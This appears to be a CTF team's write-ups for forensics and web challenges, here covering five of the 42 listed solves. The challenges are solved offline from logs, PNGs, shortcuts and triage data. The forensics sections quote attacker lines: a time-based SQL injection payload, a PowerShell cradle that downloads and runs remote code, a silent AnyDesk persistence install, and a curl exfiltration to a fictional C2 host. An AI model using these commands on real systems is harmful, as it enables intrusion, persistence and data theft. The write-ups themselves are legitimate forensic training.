


# CSCTF 2026 "Total Warfare" — Write-ups

**Team:** RACE CONDITION · **Division:** Juniors · **Event:** Chronos Security CTF 2026, Nov 6–8, 2026 (Jeopardy, 48 h)

**Members:** 0xAr3s-root (AresGn) · Nyx (Nyx03-gbd)

**Final scoreboard:** 216th place · 10,046 points · 42 credited solves (hint costs included)

This document contains 42 write-ups, one per credited solve. Each one gives the approach step by step, the dead ends that mattered, and a solve script (see the appendix) that recomputes the flag from the provided files. Flags are redacted as `CSCTF{...}`.

## Summary

| # | Challenge | Category | Solves | Notes |
|---|---|---|---|---|
| 1 | [Operation Dawn: The Command](#operation-dawn-the-command) | Web | — |  |
| 2 | [Afterimage](#afterimage) | Forensics | 105 |  |
| 3 | [Briefing for One](#briefing-for-one) | Forensics | 82 |  |
| 4 | [Capability Ghost](#capability-ghost) | Forensics | 106 |  |
| 5 | [CAPTCHA THE WATER PLANT](#captcha-the-water-plant) | Forensics | 32 | hint used |
| 6 | [Code Red Freight](#code-red-freight) | Forensics | 102 |  |
| 7 | [Dawn Array](#dawn-array) | Forensics | 99 |  |
| 8 | [Flotsam](#flotsam) | Forensics | 100 |  |
| 9 | [Ghost in the Historian](#ghost-in-the-historian) | Forensics | 107 |  |
| 10 | [Interlock Witness](#interlock-witness) | Forensics | 99 |  |
| 11 | [Last Buffer](#last-buffer) | Forensics | 119 |  |
| 12 | [Last Commit](#last-commit) | Forensics | 118 |  |
| 13 | [Night Clerk](#night-clerk) | Forensics | 45 |  |
| 14 | [Operation Dawn: Relay Snapshot](#operation-dawn-relay-snapshot) | Forensics | 42 |  |
| 15 | [Operation Dawn: The Burnt Server](#operation-dawn-the-burnt-server) | Forensics | 61 |  |
| 16 | [Operation Dawn: The Relay Tap](#operation-dawn-the-relay-tap) | Forensics | 36 |  |
| 17 | [Phantom Drift](#phantom-drift) | Forensics | 124 |  |
| 18 | [Polyglot Requiem](#polyglot-requiem) | Forensics | 108 |  |
| 19 | [Redline](#redline) | Forensics | 127 |  |
| 20 | [Signal Reconciliation](#signal-reconciliation) | Forensics | 51 |  |
| 21 | [Silent Breaker](#silent-breaker) | Forensics | 81 |  |
| 22 | [Tone Burst](#tone-burst) | Forensics | 113 |  |
| 23 | [Dark Anchorage Reconciliation](#dark-anchorage-reconciliation) | Network | 101 | hint used |
| 24 | [Ghost Signal](#ghost-signal) | Network | 145 | hint used |
| 25 | [Grid Watch](#grid-watch) | Network | 75 |  |
| 26 | [Hard Landing](#hard-landing) | Network | 86 |  |
| 27 | [Radar Silence](#radar-silence) | Network | 158 |  |
| 28 | [Severed Link](#severed-link) | Network | 84 |  |
| 29 | [Water Hammer Reconciliation](#water-hammer-reconciliation) | Network | 124 |  |
| 30 | [Carrier Shadow](#carrier-shadow) | Reverse / Malware | 264 |  |
| 31 | [Ghost Bank](#ghost-bank) | Reverse / Malware | 29 |  |
| 32 | [Ground Lock](#ground-lock) | Reverse / Malware | 163 |  |
| 33 | [HELIOS-RTU](#helios-rtu) | Reverse / Malware | 52 |  |
| 34 | [Operation Dawn: Radio Recovery](#operation-dawn-radio-recovery) | Reverse / Malware | 156 |  |
| 35 | [PoshTerm](#poshterm) | Reverse / Malware | 126 |  |
| 36 | [The Lock Box](#the-lock-box) | Reverse / Malware | 166 |  |
| 37 | [Operation Blackout](#operation-blackout) | ICS / SCADA | 138 |  |
| 38 | [Operation Dawn: The Sentry's Model](#operation-dawn-the-sentrys-model) | ML / AI | 261 |  |
| 39 | [Command Calendar Reconciliation](#command-calendar-reconciliation) | Miscellaneous | 141 |  |
| 40 | [Operation Dawn: The Shared Model](#operation-dawn-the-shared-model) | Miscellaneous | 213 |  |
| 41 | [The Reconnaissance Plate](#the-reconnaissance-plate) | Miscellaneous | 96 |  |
| 42 | [Watch List Audit](#watch-list-audit) | Miscellaneous | 243 |  |

## Methodology and AI usage

### How we worked

- **Evidence first.** Each challenge was solved from the provided artifacts. When several files describe the same fact, we cross-checked them before deriving anything, and treated contradictions as possible decoys (see *Operation Blackout*, where every field is checked against independent sources).
- **The script is the proof.** Every write-up comes with a solve script that recomputes the flag from the original files or the live service. No flag is hard-coded: if the evidence changes, the script fails loudly instead of printing a wrong answer.
- **Live notes, including failures.** We logged commands, leads and dead ends during the event. Refused submissions are kept and explained (for example the three refused guesses on *Operation Blackout*, discussed in its Reflections).
- **Hints, declared.** We used platform hints on several challenges (among them Ghost Signal, Dark Anchorage Reconciliation, CAPTCHA the Water Plant and Key Custody); their cost is included in our score, and each write-up says whether a hint was used.

### Declared AI usage

We used an AI coding assistant (Claude, through Claude Code) during the event: to help analyse artifacts, write and iterate on helper scripts, and draft and translate the write-ups (English and French). We set explicit rules for it, kept in the repository as `AGENT.md`:

- never invent a command, an output, a step or a number: an unknown fact is asked to the human or left open;
- ask the solver a fixed list of questions (what was tried, what failed and why, the key insight, the exact commands) before drafting;
- never write a real flag, never send anything outside the team, never commit challenge files.

**Verification rule:** an AI-suggested lead or result was only kept when the solve script reproduced it from the provided files and the platform accepted the flag. Hypotheses that did not survive this check were dropped, and the ones worth learning from are described in each write-up's Reflections section.

## Web

### Operation Dawn: The Command

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| web | — | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> Operation Dawn, annex entry 07. The Ash Army ran a status portal for its canal checkpoint,
> and coalition cyber teams seized the web server's log. One visitor walked out of the portal's
> database with the checkpoint's link secret and never drew an error page. Recover what they took
> and submit it exactly as recovered. It already carries its own braces, so do not wrap it again.
>
> The portal, its units and every host in the log are fictional.
> Attachment: `access.log`, 514,137 bytes,
> SHA-256 `3bb180802cc90b56984f179cb4315fc805d1e047e8a2374544044858fea30db2`.
> Each line is nginx's combined format followed by `rt=`, the request time in seconds.

**Artifact files:** `files/access.log` (not committed)

#### TL;DR

Blind time-based SQL injection in `GET /api/status?unit=` — attacker used `IF(SUBSTR(token,N,1)='X',SLEEP(2),0)` to leak the token one character at a time; requests with `rt ≥ 2` reveal each correct character.

#### Approach

**1. Recon — reading the log format**

The log is nginx combined format with an extra `rt=SECONDS` field appended to each line.
Normal traffic (IP `192.0.2.76`) browses the portal with sub-millisecond response times.

One IP stands out immediately: `198.51.100.66`, using `python-requests/2.32.3` with no
`Referer` — automated tooling.

**2. Identifying the attack**

Searching for SQL keywords reveals a massive series of requests to `/api/status`:

```
GET /api/status?unit=43'+AND+IF(SUBSTR(token,6,1)='Z',SLEEP(2),0)--+- HTTP/1.1
```

This is a **blind time-based SQL injection**:
- The `token` column is being exfiltrated character by character.
- `SUBSTR(token, N, 1)` extracts the Nth character.
- `IF(..., SLEEP(2), 0)` makes the server sleep 2 seconds if the guess is correct.
- The attacker scripts every printable character at every position and watches the response time.

All requests return HTTP `200` with a small body — no error pages were generated, confirming
the challenge's flavour text ("never drew an error page").

**3. Reconstruction**

The `rt=` field records actual server response time. A request with `rt >= 2.0` means
`SLEEP(2)` fired → the guessed character was correct.

Parse all matching lines, URL-decode the character (`%7B` → `{`, `%7D` → `}`),
and assemble the token by position:

```bash
python3 solve/solve.py files/access.log
```

```
[+] Token length : 41
[+] Recovered token: flag{...}
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}`

#### Reflections

- The challenge is pure **log forensics**: no live exploitation needed, just replaying what
  the attacker already did.
- Key insight: `rt=` in nginx logs is the smoking gun. Without it you'd need to count
  duplicate requests per position to find the "winner" by frequency, which is noisier.
- URL-decoding the character field is easy to miss — `{` and `}` are encoded as `%7B`/`%7D`
  and must be decoded or the first/last characters will be wrong.

#### Tools & references

- Python 3 (`re`, `urllib.parse.unquote`)
- [nginx log format docs](https://nginx.org/en/docs/http/ngx_http_log_module.html)
- Blind time-based SQLi: [OWASP Testing Guide – OTG-INPVAL-005](https://owasp.org/www-project-web-security-testing-guide/)


## Forensics

### Afterimage

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 105 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> A duty operator screenshotted their terminal, cropped the bottom off to remove something sensitive, and posted the result to a shared channel. The picture looks fine. The file is the problem.
>
> The crop changed what you see, not what the file still carries. Recover what was cropped away and read the station recovery key.
>
> Flag format: `CSCTF{message}`

**Artifact files:** `files/relay-capture.png` (not committed; the cropped image is also in [`img/cropped.png`](img/afterimage-cropped.png)).

#### TL;DR

The cropped PNG was written over the longer original without truncating: 11,911 bytes of the old IDAT stream remain after `IEND` (an "aCropalypse"); rebuilding that stream, finding a deflate block boundary by brute force and seeding the window with the visible image gives back the last 200 rows, which show the recovery key.

#### Approach

**1. Recon — a 520×340 PNG with data after IEND**

`file` says a 520×340 RGB PNG, 26,174 bytes — large for a flat terminal capture. Walking the chunks by hand: 14 `IDAT` chunks (1,024 bytes each except the last, 738), `IEND` at offset 14,251, then **11,911 trailing bytes**. The visible image is a terminal capture ("FIELD RELAY 7 — terminal capture") that ends with `custody --scope key-store` / `recovery panel retained in prior frame`: what was cropped is the recovery panel.



The trailing data contains `IDAT` chunk headers every 1,036 bytes (1,024 + 12 of framing) and a second `IEND` at the very end: it is the tail of the original PNG, whose first 14,263 bytes were overwritten by the new, shorter file. The first trailing bytes are the end of an old IDAT chunk cut in the middle (270 bytes of data, then its CRC).

**2. Hypothesis — the old zlib stream can be decoded from a later block boundary**

The old deflate stream is cut: its start (and the Huffman tables of the block that straddles the overwrite point) is gone, so it cannot be inflated from the beginning. But deflate blocks are independent apart from the 32 KiB back-reference window, so:

- rebuild the tail stream = leftover data of the cut chunk + the data of every complete trailing `IDAT` chunk (dropping the 12 bytes of chunk framing each);
- try every starting position, at every bit shift 0–7, as a raw deflate block (`zlib.decompressobj(-15)`), most fail immediately;
- seed the window (`zdict`) with the last 32 KiB of the *visible* image's decompressed scanlines: the old image is the same screenshot plus extra rows at the bottom, so back-references that reach into the visible rows resolve correctly.

**3. Exploitation — one start decodes to a clean end of stream**

Exactly one start (byte 3,123 of the rebuilt stream, no bit shift) decodes to a final block (`eof`), and yields **312,200 bytes = 200 × 1,561** (1 filter byte + 520 × 3 pixels per scanline): exactly 200 scanlines, a strong confirmation. These are the last 200 rows of the original image; the first row may be imperfect since its previous row is unknown, and filters are undone with an all-zero row above it. Rendering them shows a "RELAY RECOVERY KEY — ROTATE AFTER USE" panel containing the flag (zoomed in to read it character by character).

```bash
pip install pillow
python3 -I solve/solve.py files/relay-capture.png recovered.png
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- Cropping without truncating the file leaves the old bytes behind: a file size that is large for its content is the first clue (the same bug as the 2023 "aCropalypse" on Pixel/Windows editors).
- Deflate blocks can be resynchronised: brute-forcing the block start (byte × bit shift) and validating with `eof` plus a whole number of scanlines is cheap and unambiguous.
- Using the visible image as the dictionary matters: it lets the recovered block reference rows that were not lost.
- The key was read by eye from an enlarged render; the 24 hex digits are easy to confuse (`1`/`l`, `0`/`o`), so re-check if the platform rejects it.

#### Tools & references

- Python 3 (`struct`, `zlib`), Pillow
- PNG chunk structure and filters, zlib/deflate block structure, aCropalypse (CVE-2023-21036)


### Briefing for One

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 82 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> Flood response was under way when an intruder staged a routing package for a single workstation at the fictional Rovenqara Civil Continuity Directorate, which coordinates civil support for coalition forces in Operation Dawn. The shortcut opened, and isolation left regional shelter routing on paper.
>
> Recover the package from the supplied evidence and submit its briefing token. Analyze the files only: do not execute the shortcut or DLL, or contact captured addresses.
>
> Attachment: `briefing-for-one-5f4125fbb77f625d.zip`, 161,346 bytes, SHA-256: `5f4125fbb77f625d85bbdb2d0f5090ed270409a302bd5f15a5f90a43d050cb9a`
>
> Flag format: `CSCTF{32 lowercase hexadecimal characters}`

**Artifact files:** `files/briefing-for-one-5f4125fbb77f625d.zip` (not committed — currently at `forensics/briefing-for-one-5f4125fbb77f625d.zip`)

#### TL;DR

Parse (never open) the `.lnk` to recover its PowerShell staging script, read `MachineGuid` at the root of the saved Cryptography hive, recompute the 7-Zip password as `HMAC-SHA-256(binding-key, "csctf26/briefing-for-one/v1" || 0x00 || guid)`, pull the real `route-update.7z` out of the WebDAV capture by hash, decrypt it, and read the token the DLL statically validates in `route-table.json`.

#### Approach

**1. Recon — inventory, and read the field guide first**

```bash
sha256sum briefing-for-one-5f4125fbb77f625d.zip  # 5f4125fb…cb9a matches
unzip -l briefing-for-one-5f4125fbb77f625d.zip
# briefing.lnk (5709)  machine-cryptography.hiv (126976)  egress.pcapng (22876)
# field-guide.md  provenance.json  SHA256SUMS  (all SHA256SUMS verify)
```

`field-guide.md` + `provenance.json` carry three load-bearing warnings, all confirmed later: (a) the hive is a **saved subkey** (`reg.exe save` of `Cryptography`), so an offline reader presents that key as its root — tools expecting `SOFTWARE\Microsoft\Cryptography\…` need the saved-root path; (b) Wireshark HTTP export, DAV XML and raw TCP streams are **different byte sequences** — only compare an exported body against the hash in the evidence; (c) a worked HMAC example (published inputs) pins the exact byte handling: UTF-8 without BOM, one `0x00` separator, GUID lowercased without braces/whitespace/NUL. I verified that example reproduces (`7dad6991…10d0`) before using the derivation on case values.

**2. Hypothesis — the shortcut is the whole staging script, in plaintext**

Parsing the Shell Link StringData statically (header → IDList → LinkInfo → Unicode StringData; target `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`, description “Regional shelter routing update”) yields a 2194-char `-Command` that, in order:

1. Gates on a sibling `permit.bin`: must exist, be 32 bytes, match a pinned SHA-256 (else exit 41/42). `provenance.json` explains the control design — a permit-absent negative control preceded this permit-present run — so the capture is the selected run. The permit contents are a launch gate only; nothing below derives from them.
2. Reads `HKLM\SOFTWARE\Microsoft\Cryptography` `MachineGuid`, validates its shape and lowercases it.
3. Derives the package password: `$k` = Base64-decoded binding key (32 bytes, embedded in the command), `$p` = lowercase hex `HMAC-SHA-256($k, UTF8('csctf26/briefing-for-one/v1' + [char]0 + $g))` — exactly the field-guide construction.
4. Copies `\\briefing.rovenqara.test@80\DavWWWRoot\ops\route-update.7z` (WebDAV; **not contacted** — the same exchange is in `egress.pcapng`), verifies its pinned SHA-256, extracts it with `7z x -p$p`, verifies `route-update.dll` and `route-table.json` against two more pinned hashes, then `rundll32 …,ApplyRouteTable` and checks `route-applied.txt` == `Rovenqara route fixture applied\r\n`.

So the offline job is: hive → GUID, capture → archive, password → members, DLL (static) → token validation rule. The hive root confirms step 2 immediately: root key `Cryptography`, single root value `MachineGuid = 080c7be1-f41c-446c-b961-93bd7bc4ea31` (REG_SZ). A minimal NK/VK reader (root offset at header `0x24`, cell offsets relative to `0x1000`) gets it without mounting anything.

**3. Exploitation — recover by hash, decrypt, validate statically**

Capture: 95 packets, 8 TCP connections `192.168.56.20 → 192.168.56.10:80` (`OPTIONS`, several `PROPFIND`, one `GET /ops/route-update.7z`). `tshark --export-objects http,…` produces 7 objects — and 6 are DAV XML (881–914 bytes), three of them *named* `route-update*.7z`. Only the `GET` 200 `application/octet-stream` body (5359 bytes) hashes to the value pinned in the shortcut (`d29a0679…e4c2`). Hash, not filename, selects the package — precisely the field-guide trap.

```bash
# password = HMAC above over the case GUID (solver recomputes it from the .lnk)
7z x -p"$PASSWORD" -oroute_out route-update.7z   # archive reader only
sha256sum route-update.dll route-table.json          # both match the .lnk pins
```

Members: `route-table.json` (192 bytes) and `route-update.dll` (PE32+ x86-64, 13,824 bytes). The DLL was examined **only** statically (`pefile`/`objdump`, never loaded): single export `ApplyRouteTable` (RVA `0x137f`), imports `GetModuleFileNameW/CreateFileW/GetFileSize/ReadFile/WriteFile`. Disassembly shows it builds the sibling `route-table.json` path, requires `GetFileSize == 0xC0` (192), `strncmp`s a 36-byte (`0x24`) prefix `{"schema":1,"briefing_token":"CSCTF{` and the 124-byte (`0x7c`) routes suffix at offset `0x44`, then loops over bytes 36…67 accepting only `[0-9]`/`[a-f]` — i.e. exactly 32 lowercase hex chars — before writing `route-applied.txt`. The DLL embeds the prefix/suffix only, never the token itself, so the token genuinely lives in the recovered JSON between them:

```bash
python3 solve/solve.py ../briefing-for-one-5f4125fbb77f625d.zip
# [*] Example OK   : 7dad69912b67470da7713c666337135b568030605bc2e88f99524596366d10d0
# [*] LNK command  : 2194 chars (powershell.exe, static)
# [*] MachineGuid  : 080c7be1-f41c-446c-b961-93bd7bc4ea31 (hive root = Cryptography)
# [*] GET body     : 5359 bytes, sha256=d29a0679… (matches the .lnk pin)
# [*] Member hashes match the LNK expectations
# [+] FLAG         : CSCTF{...}
```

The solver is stdlib-only apart from the `7z` binary (own LNK, hive NK/VK, pcapng/TCP and HTTP parsing; every constant is extracted from the evidence) and never executes the shortcut or DLL.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}` (redacted)

#### Reflections

- Treat the `.lnk` as a document, not a launcher: Shell Link StringData held the entire intrusion script — key, derivation, URLs and all three acceptance hashes — with no execution needed.
- Every stage has an independent acceptance hash (archive, DLL, JSON). Using them is what separates the real 5359-byte package from the three same-named DAV XML exports; filenames alone would have decrypted nothing.
- Saved-subkey hives invert the usual path expectation: `MachineGuid` is at the *root* of this file. Checking the root key name (`Cryptography`) first avoids hunting for a `SOFTWARE\…` hierarchy that is not there.
- Static DLL validation cuts both ways: the disassembly (192-byte size, prefix/suffix compares, `[0-9a-f]{32}` loop) proves the JSON token is the intended submission and that no second, hidden token is generated at runtime.

#### Tools & references

- Python 3 stdlib (`struct`, `hashlib`, `hmac`, `zipfile`) + `7z` (encrypted-archive reader only)
- Wireshark / `tshark --export-objects http` and `capinfos` (capture recon cross-checks)
- `pefile`, `objdump` (static PE triage/disassembly — DLL never executed)
- Windows Shell Link StringData, registry hive NK/VK cells, WebDAV (`PROPFIND`/`GET`) over HTTP


### Capability Ghost

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 106 | ✅ | — | no | 0xAr3s-root | Mohamed Amine Mzoughi |

#### Challenge description

> A hostile-state campaign targeted the build runner for the software that drives signals on railways carrying coalition freight toward the Operation Dawn front. Responders kept the runner's filesystem archive and journal.
>
> Recover the sealed marker from them. Inspect the records as data: do not run the supplied programs or restore their capabilities. Linux tools or WSL are enough, and you do not need root. This is a constructed forensic exercise, not evidence of an actual compromise.
>
> Attachment: `capability-ghost.zip`, 51,023 bytes, SHA-256 `c53a83833466cc4db34336ab9e333a0e317cd48da43932953df89cacb9c31ffe`.
>
> Submit the complete recovered `CSCTF{...}` value. Flag format: `CSCTF{...}`

**Artifact files:** `files/runner-fs.tar.gz`, `files/runner.journal`, `files/README_FOR_RESPONDERS.md`, `files/manifest.sha256` (not committed).

#### TL;DR

`/etc/solunet/signaling-cfg.sealed` is XORed with a key derived by `hc-probe` as `HMAC-SHA256(tag, epoch)`: the tag is the `user.build_seal` xattr stored in the tar's PAX headers, the epoch is the journal's `X_SEAL_EPOCH` field; recomputing the key offline decrypts the marker → flag.

#### Approach

**1. Recon — a tar with xattrs, a journal and a shredded config**

`runner-fs.tar.gz` holds a small tree: `/etc/solunet/signaling-cfg.sealed` (27 bytes), `/usr/local/bin/hc-probe`, `backup-sync`, `ping`, a `hc-probe.service` unit and `/root/.bash_history`. The history tells the story: `setcap` on `hc-probe`, a random `TAG`, `setfattr -n user.build_seal`, an `EPOCH=$(date +%s)`, then `hc-probe --seal "$TAG" "$EPOCH" signaling-cfg signaling-cfg.sealed` and `shred -u` of the plaintext. So the plaintext is gone for good; the only way is to reverse the seal with the right tag and epoch.

The xattrs are not applied on extraction (no root), but they are stored in the PAX extended headers as `SCHILY.xattr.*`. Python's `tarfile` exposes them in `pax_headers`:

```python
import tarfile
for m in tarfile.open("files/runner-fs.tar.gz"):
    print(m.name, m.pax_headers)
```

`hc-probe` carries `security.capability` and `user.build_seal` = `50 9d f6 cd 8e 10 3f a5` (8 raw bytes; `tarfile` shows it as a UTF-8 string with surrogate escapes, so I re-encode with `surrogateescape` to get the bytes back). `backup-sync` has a `user.sync_id` and `ping` has a capability too, but those are noise.

**2. Hypothesis — the binary documents its own scheme; the epoch is in the journal**

I did not run `hc-probe`. A `strings` on it is enough: its usage text states that `--seal` and `--unseal` are the same operation, a repeating-key XOR with `key = HMAC-SHA256(key = raw_bytes(tag_hex), msg = ascii_decimal(seal_epoch))`, `out[i] = in[i] XOR key[i mod 32]`. It also says where the epoch comes from: the `X_SEAL_EPOCH` field of this run's journal entry, **not** the entry's own wallclock time.

```bash
journalctl --file=files/runner.journal --no-pager -o json
```

Entry 5 (`hc-probe`, "health probe sealed result written") has `X_SEAL_EPOCH=1793294042`, whereas its `__REALTIME_TIMESTAMP` gives 1793294054 — 12 s later: the trap. Two other traps on the tag: the `TAG` in `.bash_history` is just a variable of the original shell (random, not recorded), and the shell command stored the xattr as the ASCII string `0x…`, while the archive holds the raw bytes; the xattr in the archive is the source of truth.

**3. Exploitation — recompute the key offline and XOR**

```bash
python3 -I solve/solve.py files
```

The script reads the tag from the PAX headers, the epoch from the journal (via `journalctl --file`), derives the key and XORs the sealed file. A wrong tag or epoch would give random bytes; here the output starts with `CSCTF{` and is printable, which confirms both values.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- Archive metadata (PAX xattrs) is evidence in its own right: a plain `tar -x` as non-root silently drops it, so read the headers instead.
- When a tool documents its own scheme, read the binary's strings before anything else; here it also warned about the epoch pitfall (journal field vs. entry time).
- A correct decryption is self-validating (printable output with the known `CSCTF{` prefix), which is a good check when several candidate inputs exist.
- Nothing was executed, extracted as root, or restored: the whole solve is data analysis.

#### Tools & references

- `journalctl --file=… -o json`, `strings`, Python 3 (`tarfile`, `hmac`, `hashlib`)
- Linux xattrs / file capabilities (`security.capability`), PAX `SCHILY.xattr.*` headers, systemd journal custom fields


### CAPTCHA THE WATER PLANT

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| forensics | 32 | ✅ | — | yes | 0xAr3s-root | Marius Merai |

#### Challenge description

> Nordvia Water Utility lost its distribution-control panel and pressure collapsed across the northern districts. An administrator account was used from one of three laptops. The KAPE triage collections were taken after the incident.
>
> Follow the evidence from what the user ran, to what it launched, to the persistence it left behind, and finally to the browser evidence it exposed. All hosts and domains in the evidence are fictional. Analyse the supplied files offline only.
> Attachments: `ENG-LAPTOP-23.zip`, `FIELD-WKS-21.zip`, `OPS-NB-06.zip`.
> Flag format: `CSCTF{...}`.

**Artifact files:** `files/ENG-LAPTOP-23.zip`, `files/FIELD-WKS-21.zip`, `files/OPS-NB-06.zip` (not committed — currently in `forensics/`, to be moved later)

#### TL;DR

KAPE parsed triage for three laptops; only OPS-NB-06 (user `ops06.nwu`) touches the fictional C2. Win+R download cradle → validator drops AnyDesk RMM (`C:\temp\Maitenance`, unattended password set) → daily scheduled task + service persistence → browser theft session (Nirsoft dumps, exfil). No literal `CSCTF{...}` exists in any artifact: the flag is **the concatenation of three leetspeak fragments**, one per stage of the chain (RMM password `f@k3_c@ptch@` + scheduled-task description `_r3@l_m@lw@r3` + admin-token suffix `cl1ckf1xed`). Each was refused when submitted alone.

#### Approach

**1. Recon — inventory the three collections, attribute the host**

Each zip holds `Kape-parsed-<HOST>/` (EventLogs, FileFolderAccess, FileSystem, ProgramExecution, Registry, SRUM, WebBrowsers/Hindsight_output.xlsx; only OPS-NB-06 has `Persistence/`). First question: which laptop ran the admin account against the C2?

```bash
for h in ENG-LAPTOP-23 FIELD-WKS-21 OPS-NB-06; do
  unzip -p $h.zip "*EvtxECmd_Output.csv" | grep -c -i 'zindetify\|validator'
done
# ENG: 0, FIELD: 0, OPS: dozens
```

ENG-LAPTOP-23 (`eng-23.nwu`, engineer) and FIELD-WKS-21 (`field21.nwu`, field operator) are clean builds: Ninite bundle, Yamato WELA hardening, KB5020044, KeePass/PuTTY/Thunderbird, per-role water-panel tokens (`NVW-ENG-*`, `NVW-FIELD-*`, shared `a7f39c2e` suffix), KAPE self-collection. No script-host abuse, no RMM outside Ninite's legit AnyDesk on FIELD, no custom persistence.

**2. Hypothesis — OPS-NB-06 is the attacker-operated admin laptop**

`Registry/*UserActivity_Output.csv` (UserAssist/RunMRU, user `ops06.nwu`, 2026-10-21 04:30:47):

```
powershell.exe -nop -ep Bypass "[System.Text.Encoding]::UTF8.GetString(
  (New-Object System.Net.WebClient).DownloadData(
  'http://zindetify.dev.boot:8080/validator')) | iex"
```

Security 4688 in `EventLogs/*EvtxECmd_Output.csv` confirms the chain: `explorer.exe → powershell.exe` (cradle) → `C:\temp\Maitenance\Setup\AnyDesk.exe --install ... --start-with-win --silent` (04:31:04), re-run daily as `SYSTEM` at 15:10 (scheduled task).

**3. Exploitation — validator, persistence, RMM password, browser loot**

PowerShell ScriptBlockLogging (4104) in the same Evtx captures the `validator` body: ~50 junk `Get-Data01…50` functions plus the real stages — `Register-ScheduledTask 'Maitenance Check …' -Daily -At 11:10AM` with the cradle as action, AnyDesk download from `/tool`, install, then:

```
--set-password "f@k3_c@ptch@"
```

Persistence (`Persistence/Scheduled Tasks.csv`, UTF-16, + `Registry/*ASEPs*.csv`):

- `\Maitenance Check ????` (emoji in MFT: `Maitenance Check 👍🙈`), RunAs `ops06.nwu`, daily, action = cradle, comment `_r3@l_m@lw@r3` (= `_real_malware`).
- `HKLM\SYSTEM\...\Services\AnyDesk` (auto start, LocalSystem), six firewall allow rules, `.anydesk` file associations.
- `Run/RunOnce`: only legit OneDrive/Edge/KeePass/SecurityHealth.

Interactive session (4104, PID 2364, 2026-10-28 03:46–04:06): `whoami`, `net localgroup administrators`, Defender exclusion, `wget …/suite -OutFile nirsoft_pass_and_history.zip`, `BrowsingHistoryView.exe /stext browhisto.txt` (133 KB), `WebBrowserPassView.exe /stext webpass.txt` (**2 bytes — no saved passwords anywhere; logins were all declined-save**), `Compress-Archive *.txt → out.zip`, exfil `curl -F "file=out.zip" http://zindetify.dev.boot:8080/up/{$guid}`. MFT corroborates every file (`nirsoft/`, `here.txt`, `out.txt`, `browhisto.txt`, `webpass.txt`, `out.zip`).

Browser (`WebBrowsers/Hindsight_output.xlsx`, Edge profile `ops06.nwu`): `www` → `water-monitor` → `admin-control` loops (`NVW-OPS-892` pre-compromise 10-16, `NVW-OPS-739` 10-21 04:31:31 UTC during the attack, `NVW-ADMIN-cl1ckf1xed` interactive 10-28 session). Role tokens follow `NVW-<ROLE>-<n>-a7f39c2e`; the only one breaking the pattern is `NVW-ADMIN-cl1ckf1xed`, whose suffix `cl1ckf1xed` ("clickfixed") is a leetspeak fragment.

**4. Assembly — one fragment per stage named in the prompt**

The prompt lists four stages (ran → launched → persistence → browser); the last three each yield a fragment in the same style:

| Stage | Artifact | Fragment |
|---|---|---|
| Launched (RMM) | 4104 `--set-password` | `f@k3_c@ptch@` |
| Persistence | `Scheduled Tasks.csv`, description = output of `Get-Data51` (`/config`, the only function outside the 01–50 decoy series) | `_r3@l_m@lw@r3` |
| Browser | token `NVW-ADMIN-cl1ckf1xed` (Hindsight) | `cl1ckf1xed` |

The leading `_` of the 2nd fragment means direct concatenation; the 3rd is joined with `_`. My first three submissions failed because I submitted **one** fragment at a time.

```bash
python3 solve/solve.py files/
```

```
[+] Assembled flag (3 fragments): flag{...}   (redacted)
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}` (redacted — assembly of the 3 fragments `f@k3_c@ptch@` + `_r3@l_m@lw@r3` + `_cl1ckf1xed`)

#### Reflections

- Host attribution first (C2 references per host) saves hours: two of three collections are decoys with the same fictional domains.

- When nothing literal exists, look for **fragments in the same style** (here leetspeak with `@`/digits) spread across the stages the prompt enumerates: one `grep` on `[a-z]@[a-z]` found the password, the task description and the token in a single pass. Submitting each fragment alone was the mistake.
- KAPE parsed CSVs answer the whole chain without mounting anything: RunMRU/UserAssist → Prefetch/Amcache → ScheduledTasks/ASEPs → Hindsight Timeline/Sessions. 4104 is the bonus that reveals the RMM password and the exfil loop (`type`, `Compress-Archive`, `curl /up/{guid}`).
- The `Scheduled Tasks.csv` is UTF-16 (schtasks output, not KAPE-parsed UTF-8) — naive `grep` on raw bytes misses it; parse with UTF-16.
